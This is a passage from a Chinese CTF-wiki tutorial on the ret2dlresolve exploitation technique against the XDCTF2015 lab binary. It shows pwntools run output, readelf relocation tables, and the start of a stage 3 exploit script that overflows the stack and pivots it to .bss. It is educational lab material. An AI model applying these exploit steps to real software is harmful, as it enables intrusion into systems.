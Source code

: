 ```python
```

效果如下，仍然输出了cmd对应的字符串。

```shell
➜  ret2dlresolve git:(master) ✗ python stage2.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 123406
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

#### stage 3

这一次，我们同样控制dl_resolve函数中的index_offset参数，不过这次控制其指向我们伪造的write重定位项。

鉴于pwntools本身并不支持对重定位表项的信息的获取。这里我们手动看一下

```shell
➜  ret2dlresolve git:(master) ✗ readelf -r main  

重定位节 '.rel.dyn' 位于偏移量 0x318 含有 3 个条目：
 偏移量     信息    类型              符号值      符号名称
08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
0804a040  00000905 R_386_COPY        0804a040   stdin@GLIBC_2.0
0804a044  00000705 R_386_COPY        0804a044   stdout@GLIBC_2.0

重定位节 '.rel.plt' 位于偏移量 0x330 含有 5 个条目：
 偏移量     信息    类型              符号值      符号名称
0804a00c  00000107 R_386_JUMP_SLOT   00000000   setbuf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a014  00000407 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0
```

可以看出write的重定表项的r_offset=0x0804a01c，r_info=0x00000607。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

# stack privot to bss segment
# new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding
rop.raw('a' * offset)
## read 100 byte to base_stage
rop.read(0, base_stage, 100)
## stack privot, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

```